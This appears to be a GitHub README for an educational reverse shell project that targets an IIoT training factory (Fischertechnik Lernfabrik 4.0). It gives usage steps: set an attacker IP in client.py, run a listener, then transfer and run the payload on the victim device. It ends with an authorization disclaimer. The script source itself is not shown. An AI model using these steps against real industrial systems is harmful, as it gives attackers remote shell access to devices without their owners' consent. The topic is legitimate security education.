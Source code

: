 # Hacking the Backbone

**Hacking the Backbone: Shell Reverse Attacks on IIoT Systems**

Case study using Fischertechnik's Lernfabrik 4.0 (9V)

## This repository includes
- The script for the reverse shell server (`server.py`) and client (`client.py`)

## How to use it?

1. **Setting up the Client (Victim Device)**
   - `client.py` is the reverse shell payload that needs to be run on the victim device.
   - Before running this script, change the following variables:
     - `SERVER_HOST = "<Attacker_IP>"`
     - `SERVER_PORT = <Attacker Port>`

2. **Setting up the Server (Attacker's PC)**
   - `server.py` is the reverse shell listener that needs to be run on the attacker's PC.

## Required Packages
- `socket`

### Steps to Run

1. **On the Attacker's PC:**
   - Open a terminal and navigate to the directory containing `server.py`.
   - Run the server script:
     ```
     python server.py
     ```

2. **On the Victim Device:**
   - Transfer `client.py` to the victim device.
   - Open a terminal on the victim device and navigate to the directory containing `client.py`.
   - Run the client script:
     ```
     python client.py
     ```

Once both scripts are running, the reverse shell connection will be established, providing the attacker with remote access to the victim device.

---

### ⚡[Video](https://youtu.be/u8nhV5LXjJU)

**Disclaimer:** This project is intended for educational purposes only. Unauthorized use of these scripts for malicious purposes is illegal and unethical. Always obtain proper authorization before testing security on any system.




<img src="https://github.com/rnrn0909/beyondthelens/assets/57967202/236eb741-b6dc-4f8a-89b1-ebfc66ee2a2e" align="right" width="260" height="40">
